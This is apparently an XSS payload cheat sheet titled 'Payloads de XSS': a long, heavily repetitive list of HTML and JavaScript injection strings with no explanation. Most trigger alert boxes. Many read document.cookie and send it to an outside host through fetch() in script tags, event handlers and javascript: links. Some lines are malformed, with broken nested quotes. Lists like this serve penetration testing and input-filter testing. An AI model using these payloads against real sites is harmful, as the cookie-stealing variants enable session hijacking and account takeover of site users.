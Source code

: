 ## Payloads de XSS
<script>alert('XSS')</script>

<img src="x" onerror="alert('XSS')">

<a href="javascript:alert('XSS')">Click me</a>

<svg/onload=alert('XSS')>

<iframe src="javascript:alert('XSS')"></iframe>

<body onload="alert('XSS')">

<input onfocus="alert('XSS')">

<div onmouseover="alert('XSS')">Hover me</div>

<form><button formaction="javascript:alert('XSS')">Submit</button></form>

<details open ontoggle="alert('XSS')"><summary>Click me</summary></details>

<video src="x" onerror="alert('XSS')">

<source src="javascript:alert('XSS')">

<marquee onstart="alert('XSS')">Scrolling text</marquee>

<object data="javascript:alert('XSS')"></object>

<embed src="javascript:alert('XSS')">

<link href="javascript:alert('XSS')" rel="stylesheet">

<style>@import 'javascript:alert('XSS')';</style>

<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">

<script src="javascript:alert('XSS')"></script>

<base href="javascript:alert('XSS')">

<input type="text" value="x" onclick="alert('XSS')">

<textarea onfocus="alert('XSS')"></textarea>

<form action="javascript:alert('XSS')"><input type="submit"></form>

<select onchange="alert('XSS')"><option>Option</option></select>

<button onclick="alert('XSS')">Click me</button>

<a href="data:text/html,<script>alert('XSS')</script>">Link</a>

<a href="javascript:void(alert('XSS'))">Link</a>

<input type="image" src="x" onerror="alert('XSS')">

<script>alert(String.fromCharCode(88,83,83))</script>

<script>fetch('https://example.com?xss=' + document.cookie)</script>

<script>alert(document.domain)</script>

<script>document.body.innerHTML = '<img src="x" onerror="alert('XSS')">'</script>

<script>document.write('<img src="x" onerror="alert('XSS')">')</script>

<script>eval('alert(\'XSS\')')</script>

<script>setTimeout('alert(\'XSS\')', 1000)</script>

<script>document.location='javascript:alert(1)'</script>

<script>location.href='javascript:alert(1)'</script>

<script>window.onload=function(){alert('XSS')}</script>

<svg/onload=eval('alert("XSS")')>

<svg/onload=eval('alert("XSS")')>

<input type="text" value="test" onfocus="alert('XSS')">

<textarea onblur="alert('XSS')"></textarea>

<button onclick="document.getElementById('myDiv').innerHTML='<img src=x onerror=alert(1)>'">Click</button>

<iframe src="data:text/html,<script>alert(1)</script>"></iframe>

<object data="javascript:alert('XSS')"></object>

<audio src="javascript:alert('XSS')"></audio>

<embed type="text/html" src="javascript:alert('XSS')"></embed>

<iframe src="javascript:alert('XSS')"></iframe>

<object data="javascript:alert('XSS')"></object>

<svg/onload="eval('alert(1)')">

<a href="javascript:eval('alert(1)')">Click me</a>

<a href="javascript:alert(1)">Click me</a>

<a href="javascript:alert(document.cookie)">Click me</a>

<a href="javascript:fetch('https://example.com?cookie=' + document.cookie)">Click me</a>

<a href="javascript:alert('XSS')">Click me</a>

<img src="x" onerror="fetch('https://example.com?cookie=' + document.cookie)">

<script>fetch('https://example.com?cookie=' + document.cookie)</script>

<script>document.write('<img src=x onerror=alert(1)>')</script>

<script>document.body.innerHTML='<img src=x onerror=alert(1)>'</script>

<iframe src="data:text/html,<script>alert(1)</script>"></iframe>

<form action="javascript:alert('XSS')"><input type="submit"></form>

<a href="data:text/html,<script>alert('XSS')</script>">Click me</a>

<script>alert('<img src=x onerror=alert(1)>')</script>

<script>eval('alert(1)')</script>

<script>location.href='javascript:alert(1)'</script>

<script>fetch('https://example.com?xss=' + document.cookie)</script>

<svg/onload="alert(document.cookie)">

<script>alert(document.domain)</script>

<script>setTimeout('alert(document.domain)', 1000)</script>

<script>setTimeout(function(){ alert(document.domain) }, 1000)</script>

<a href="javascript:eval('alert(1)')">Click me</a>

<input type="text" onfocus="alert('XSS')">

<input type="text" onclick="alert('XSS')">

<textarea onblur="alert('XSS')"></textarea>

<textarea onfocus="alert('XSS')"></textarea>

<button onclick="eval('alert(1)')">Click me</button>

<iframe src="javascript:alert(1)"></iframe>

<audio src="javascript:alert(1)"></audio>

<style>@import 'javascript:alert(1)';</style>

<link href="javascript:alert(1)" rel="stylesheet">

<script>alert('XSS');</script>

<svg onload="alert('XSS')">

<script>eval('alert("XSS")')</script>

<img src="x" onerror="fetch('https://example.com?cookie=' + document.cookie)">

<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<script>fetch('https://example.com?cookie=' + document.cookie)</script>

<script>document.write('<img src=x onerror=alert(1)>')</script>

<a href="javascript:fetch('https://example.com?cookie=' + document.cookie)">Click me</a>

<a href="data:text/html,<script>alert('XSS')</script>">Click me</a>

<script>alert(String.fromCharCode(88,83,83))</script>

<script>document.body.innerHTML = '<img src=x onerror=alert(1)>'</script>

<a href="javascript:fetch('https://example.com?cookie=' + document.cookie)">Click me</a>

<input type="text" onclick="eval('alert(1)')">

<script>eval('alert(1)')</script>

<textarea onfocus="eval('alert(1)')"></textarea>

<input type="button" onclick="fetch('https://example.com?cookie=' + document.cookie)">

<img src="x" onerror="fetch('https://example.com?cookie=' + document.cookie)">

<iframe src="javascript:alert(1)"></iframe>

<script>fetch('https://example.com?xss=' + document.cookie)</script>

<script>document.write('<img src=x onerror=alert(1)>')</script>

<a href="javascript:alert('XSS')">Click me</a>

<input type="text" value="x" onfocus="alert('XSS')">

<textarea onblur="alert('XSS')"></textarea>

<button onclick="alert('XSS')">Click me</button>

<a href="data:text/html,<script>alert('XSS')</script>">Link</a>

<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<object data="javascript:alert('XSS')"></object>

<embed src="javascript:alert('XSS')">

<style>@import 'javascript:alert('XSS')';</style>

<link href="javascript:alert('XSS')" rel="stylesheet">

<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">

<svg/onload="eval('alert(1)')">

<object data="javascript:alert('XSS')"></object>

<audio src="javascript:alert('XSS')"></audio>

<script>alert('<img src=x onerror=alert(1)>')</script>

<iframe src="javascript:alert('XSS')"></iframe>

<a href="javascript:alert(document.cookie)">Click me</a>

<input type="button" onclick="eval('alert(1)')">

<script>eval('alert("XSS")')</script>

<img src="x" onerror="eval('alert(1)')">

<svg onload="alert(1)">

<input type="text" value="x" onfocus="eval('alert(1)')">

<a href="javascript:fetch('https://example.com?cookie=' + document.cookie)">Link</a>

<a href="data:text/html,<script>alert(1)</script>">Link</a>

<script>fetch('https://example.com?cookie=' + document.cookie)</script>

<script>document.write('<img src=x onerror=alert(1)>')</script>

<input type="text" value="x" onclick="alert('XSS')">

<textarea onfocus="alert('XSS')"></textarea>

<button onclick="eval('alert(1)')">Click me</button>

<a href="javascript:alert(1)">Click me</a>

<iframe src="javascript:eval('alert(1)')"></iframe>

<object data="javascript:eval('alert(1)')"></object>

<audio src="javascript:eval('alert(1)')"></audio>

<script>alert('XSS');</script>

<img src="x" onerror="document.write('<img src=x onerror=alert(1)>')">

<script>fetch('https://example.com?cookie=' + document.cookie)</script>

<a href="javascript:eval('alert(1)')">Click me</a>

<textarea onblur="alert('XSS')"></textarea>

<form action="javascript:alert('XSS')"><input type="submit"></form>

<input type="button" onclick="fetch('https://example.com?cookie=' + document.cookie)">

<a href="data:text/html,<script>alert('XSS')</script>">Click me</a>

<input type="text" value="x" onfocus="fetch('https://example.com?cookie=' + document.cookie)">

<a href="javascript:alert(document.cookie)">Click me</a>

<img src="x" onerror="fetch('https://example.com?cookie=' + document.cookie)">

<script>eval('alert("XSS")')</script>

<iframe src="javascript:alert('XSS')"></iframe>

<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">

<object data="javascript:alert('XSS')"></object>

<script>document.write('<img src=x onerror=alert(1)>')</script>

<script>fetch('https://example.com?cookie=' + document.cookie)</script>

<img src="x" onerror="fetch('https://example.com?cookie=' + document.cookie)">

<a href="javascript:alert('XSS')">Click me</a>

<button onclick="alert('XSS')">Click me</button>

<form action="javascript:alert('XSS')"><input type="submit"></form>

<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<textarea onfocus="eval('alert(1)')"></textarea>

<input type="text" onclick="eval('alert(1)')">

<a href="data:text/html,<script>alert(1)</script>">Click me</a>

<input type="text" value="x" onclick="fetch('https://example.com?cookie=' + document.cookie)">

<iframe src="data:text/html,<script>alert(1)</script>"></iframe>

<img src="x" onerror="alert('XSS')">

<a href="javascript:alert(1)">Click me</a>

<script>eval('alert(1)')</script>

<input type="button" onclick="alert('XSS')">

<textarea onblur="eval('alert(1)')"></textarea>

<script>document.write('<img src=x onerror=alert(1)>')</script>

<button onclick="fetch('https://example.com?cookie=' + document.cookie)">Click me</button>

<svg onload="alert(1)">

<script>alert(document.domain)</script>

<iframe src="javascript:eval('alert(1)')"></iframe>

<object data="javascript:eval('alert(1)')"></object>

<audio src="javascript:eval('alert(1)')"></audio>

<meta http-equiv="refresh" content="0;url=javascript:eval('alert(1)')">

<input type="text" onclick="fetch('https://example.com?cookie=' + document.cookie)">

<script>alert('XSS')</script>

<button onclick="eval('alert(1)')">Click me</button>

<textarea onfocus="alert('XSS')"></textarea>

<script>alert(document.cookie)</script>

<iframe src="javascript:fetch('https://example.com?cookie=' + document.cookie)"></iframe>

<img src="x" onerror="fetch('https://example.com?cookie=' + document.cookie)">

<svg/onload="fetch('https://example.com?cookie=' + document.cookie)">

<form action="javascript:eval('alert(1)')"><input type="submit"></form>

<input type="text" onfocus="fetch('https://example.com?cookie=' + document.cookie)">

<button onclick="fetch('https://example.com?cookie=' + document.cookie)">Click me</button>

<a href="javascript:fetch('https://example.com?cookie=' + document.cookie)">Click me</a>

<textarea onfocus="fetch('https://example.com?cookie=' + document.cookie)"></textarea>

<img src="x" onerror="eval('alert(1)')">

<svg/onload="fetch('https://example.com?cookie=' + document.cookie)">

<meta http-equiv="refresh" content="0;url=javascript:eval('alert(1)')">

<iframe src="data:text/html,<script>alert(1)</script>"></iframe>

<object data="data:text/html,<script>alert(1)</script>"></object>

<script>document.body.innerHTML = '<img src=x onerror=eval('alert(1)')>'</script>

<a href="data:text/html,<script>alert(1)</script>">Click me</a>

<input type="text" onclick="fetch('https://example.com?cookie=' + document.cookie)">

<script>eval('fetch('https://example.com?cookie=' + document.cookie)')</script>

<button onclick="eval('fetch('https://example.com?cookie=' + document.cookie)')">Click me</button>

<a href="data:text/html,<script>alert(1)</script>">Click me</a>

<iframe src="data:text/html,<script>alert(1)</script>"></iframe>

<input type="text" onclick="alert('XSS')">

<script>alert('XSS')</script>
